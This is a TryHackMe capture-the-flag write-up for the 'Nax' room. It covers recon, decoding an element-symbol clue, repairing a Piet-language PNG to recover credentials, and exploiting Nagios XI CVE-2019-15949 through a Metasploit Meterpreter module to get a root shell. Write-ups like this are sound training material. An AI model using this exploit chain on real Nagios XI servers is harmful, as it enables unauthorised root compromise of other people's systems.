

# Nax

<table>
<tr><td><strong>Platform</strong></td><td>TryHackMe</td></tr>
<tr><td><strong>Difficulty</strong></td><td>Medium</td></tr>
<tr><td><strong>URL</strong></td><td><a href="https://tryhackme.com/room/nax">https://tryhackme.com/room/nax</a></td></tr>
<tr><td><strong>Focus</strong></td><td>Atomic-number encoded clue leads to a corrupted PNG containing a Piet esolang program with embedded Nagios XI credentials, exploited via authenticated RCE (CVE-2019-15949) for direct root access</td></tr>
</table>

---

## Port Scanning `[RECON]`

Full port scan with service and OS detection against the target host.

```bash
nmap --privileged -sS -sC -sV -O -Pn -p 22,25,80,389,443,5667 -oN nmap.txt <TARGET_IP>

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 (Ubuntu)
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.18
389/tcp  open  ldap    OpenLDAP 2.2.X-2.3.X
443/tcp  open  https   Apache httpd 2.4.18 (certificate: Nagios Enterprises)
5667/tcp open  tcpwrapped
```

The TLS certificate on port 443 identifies a Nagios XI installation. SSH, SMTP and LDAP are not used further in this chain; port 5667 (tcpwrapped) is not identified or explored.

---

## Elemental Symbol Clue and Hidden File Discovery `[ENUMERATION]`

The web root on port 80 displays ASCII art with a sequence of chemical element symbols.

```
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
```

Each symbol's atomic number, interpreted as a decimal ASCII code, decodes to a file path.

```bash
python3 -c "print(''.join([chr(i) for i in [47,80,73,51,84,46,80,78,103]]))"

/PI3T.PNg
```

Hidden file found: `PI3T.PNg` (exact capitalization required — the filesystem is case-sensitive).

---

## EXIF Metadata Analysis `[ENUMERATION]`

Downloading and inspecting the metadata of the discovered file.

```bash
wget http://<TARGET_IP>/PI3T.PNg -O PI3T.PNg
exiftool PI3T.PNg

Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian
```

The `Artist` and `Copyright` fields point to Piet Mondrian. Combined with the leetspeak filename ("PI3T" = "Piet") and the painter's association with solid-color block compositions, this indicates the image is not a photo but a program written in Piet, an esoteric image-based programming language.

---

## PNG Repair `[ENUMERATION]`

The PNG is deliberately corrupted: chunks pass `pngcheck`, but the `zlib` stream inside the IDAT chunk does not decompress to the expected byte count, causing strict decoders (GIMP, ImageMagick, and the GD-based backend of the online Piet interpreter) to fail on direct load.

```python
# fix_png.py
from PIL import Image, ImageFile
ImageFile.LOAD_TRUNCATED_IMAGES = True
img = Image.open('PI3T.PNg')
img.load()
img.convert('RGB').save('pi3t.ppm')
```

```bash
python3 fix_png.py
convert pi3t.ppm pi3t_clean.png
```

The repaired PPM is too large to upload as-is to the online interpreter, so it is recompressed to a clean PNG with ImageMagick before upload.

---

## Piet Program Execution - Credential Extraction `[ENUMERATION]`

```bash
# Uploaded to the online Piet interpreter
# https://www.bertnase.de/npiet/npiet-execute.php

nagiosadmin%<PASSWORD>
```

The program prints a set of credentials for the `nagiosadmin` user in an infinite loop; execution is cut off automatically once the online service's step limit is reached.

---

## Nagios XI Exploitation - CVE-2019-15949 `[EXPLOITATION]`

Authenticating to the Nagios XI panel (located via extension-based fuzzing with `.php` on ports 80/443) confirms version **5.5.6**, vulnerable to **CVE-2019-15949**.

```bash
use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
set LHOST tun0
set RHOSTS <TARGET_IP>
set USERNAME nagiosadmin
set PASSWORD <PASSWORD>
exploit
```

The module overwrites the `check_ping` monitoring plugin with the Meterpreter payload and triggers execution through the "download system profile" feature (see Key Concepts).

---

## Post-Exploitation `[POST-EXPLOITATION]`

```bash
meterpreter > shell
id

uid=0(root) gid=0(root) groups=0(root)
```

Direct root session: the execution chain runs through `getprofile.sh` (invoked via passwordless sudo), so the payload also executes as root with no further privilege escalation required.

```bash
cat /home/galand/user.txt
cat /root/root.txt
```

---

## Attack Chain



---

## Key Concepts

**Piet Esoteric Language**

Piet encodes a program as blocks of solid color: the size of each block represents a numeric value, and each transition between colors represents an instruction (push, add, output, pointer redirection, etc.). It is conceptually similar to Brainfuck, but instructions are expressed visually through color transitions rather than as readable keywords.

**Nagios XI Authenticated Plugin RCE (CVE-2019-15949)**

Nagios XI versions below 5.6.6 allow an authenticated administrator to edit monitoring plugin scripts (such as `check_ping`) through the web panel. A separate "download system profile" feature internally runs `getprofile.sh` with root privileges via a passwordless sudo entry, and that script invokes the `check_ping` plugin as part of its diagnostic routine. Overwriting the plugin with a malicious payload and triggering the profile download executes that payload as root, without requiring any further privilege escalation.

## Lessons Learned

- Chemical element symbols can encode data indirectly: atomic number to decimal ASCII to text. Worth testing whenever unexplained chemical symbols or short numeric sequences appear.
- EXIF fields like `Artist` and `Copyright` can be the pivot that links a file to a steganographic technique or an esoteric language, not just incidental metadata.
- A "corrupt image" or "unsupported format" error does not always mean a broken file — some challenges deliberately corrupt files to force use of tolerant loaders (e.g., Pillow with `LOAD_TRUNCATED_IMAGES`) instead of strict decoders.
- Extension-aware fuzzing (explicitly appending `.php`) can reveal paths that a generic extension-less scan misses.
